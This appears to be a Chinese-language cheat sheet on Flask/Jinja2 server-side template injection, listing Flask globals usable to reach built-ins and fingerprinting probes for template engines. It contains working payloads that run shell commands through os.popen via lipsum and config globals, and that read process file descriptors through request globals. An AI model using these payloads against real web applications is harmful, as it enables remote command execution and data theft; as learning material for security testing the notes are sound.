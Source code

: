 ```
__str__()            返回描写这个对象的字符串，可以理解成就是打印出来。
 
url_for              flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
 
get_flashed_messages flask的一个方法，可以用于得到__builtins__，而且url_for.__globals__['__builtins__']含有current_app。
 
lipsum               flask的一个方法，可以用于得到__builtins__，而且lipsum.__globals__含有os模块：{{lipsum.__globals__['os'].popen('ls').read()}}
 
current_app          应用上下文，一个全局变量。
 
request              可以用于获取字符串来绕过，包括下面这些，引用一下羽师傅的。此外，同样可以获取open函数:request.__init__.__globals__['__builtins__'].open('/proc\self\fd/3').read()
 
request.args.x1   	 get传参
 
request.values.x1 	 所有参数
 
request.cookies      cookies参数
 
request.headers      请求头参数
 
request.form.x1   	 post传参	(Content-Type:applicaation/x-www-form-urlencoded或multipart/form-data)
 
request.data  		 post传参	(Content-Type:a/b)
 
request.json		 post传json  (Content-Type: application/json)
 
config               当前application的所有配置。此外，也可以这样{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
 
g                    {{g}}得到<flask.g of 'flask_ssti'>
```



**不知道有什么现成的类，因此我们可以直接使用下面这些来直接获取对应的类**：

```
''.__class__
().__class__
[].__class__
"".__class__
{}.__class__
```

*ps：这些后面直接加`__base__`可以拿到object类*



#### 模板判断

```
Twig{{7*'7'}}结果49 
jinja2{{7*'7'}}结果为7777777  //jinja2的常见参数是name
smarty7{*comment*}7为77
```
